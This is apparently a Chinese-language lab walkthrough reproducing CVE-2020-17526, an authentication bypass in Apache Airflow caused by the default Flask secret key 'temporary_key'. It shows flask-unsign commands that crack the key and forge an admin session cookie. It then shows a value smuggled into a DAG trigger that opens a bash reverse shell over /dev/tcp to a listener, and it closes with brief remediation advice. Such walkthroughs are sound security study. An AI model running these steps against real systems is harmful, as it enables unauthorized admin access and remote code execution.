# Apache Airflow 默认密钥导致的权限绕过

## 漏洞编号

CVE-2020-17526


## 漏洞描述

Apache Airflow是python语言编写的一个以编程方式创作，安排和监控工作流程的平台。

除了几个服务器端python脚本之外，它还有一个基于Flask编写的Web应用程序，该Web应用程序使用Flask的无状态签名cookie来存储和管理成功登录的身份验证


在安装过程中，可以使用Airflow命令创建用户，在文档中该用户是具有管理员角色的用户


由于使用默认安全密钥对身份验证信息进行签名，导致配置错误


当用户登录时，会设置一个名为session的cookie，其中包含json格式的用户认证信息


json中名为user_id的密钥标识了登录的用户


在1.10.15 ----2.0.2版本之前，此字符串都设置为temporary_key


## 相关工具

[Paradoxis/Flask-Unsign: Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.](https://github.com/Paradoxis/Flask-Unsign?tab=readme-ov-file)


## 环境配置

vulhub

```
# 初始化数据库
docker-compose run airflow-init
# 启动服务
docker-compose up -d
```




访问192.168.23.134:8080



需要验证身份信息


## 漏洞复现

访问登录页面，服务器会返回一个签名后的cookie

```
curl -v http://192.168.23.134:8080/admin/airflow/login?next=%2Fadmin%2F|grep session
```



```
eyJjc3JmX3Rva2VuIjoiZDUzMjg1YzNlN2U4NmZhNjQ2ZDY3MjcwY2U1YzU0MTg5NDJmYmE1MSJ9.Z_ZlNQ.b3yBXnjqb-4_zEIS8_Gn4Cvzs-E
```


使用flask-unsign爆破签名时使用的SECRET_KEY:

```
flask-unsign -u -c eyJjc3JmX3Rva2VuIjoiZDUzMjg1YzNlN2U4NmZhNjQ2ZDY3MjcwY2U1YzU0MTg5NDJmYmE1MSJ9.Z_ZlNQ.b3yBXnjqb-4_zEIS8_Gn4Cvzs-E
```



爆破出Key是

```
temporary_key
```


利用获取到的密钥，生成user_id为1的会话

```
flask-unsign -s --secret temporary_key -c "{'user_id':'1','_fresh':False,'_permanent':True}"
```




利用得到的session替换掉原有的session




刷新界面，成功进入后台




尝试反弹shell

开启example_trigger_target_dag




本地开启监听

```
nc -lvp 283
```




```
{"message":"'\";bash -i >& /dev/tcp/192.168.23.134/283 0>&1;#"}
```



执行




成功弹回shell


## 防御措施

- 删除静态字符串

- 添加base64encode(os.urandom(16)).decode('utf-8')以生成随机字符串用于身份验证

  
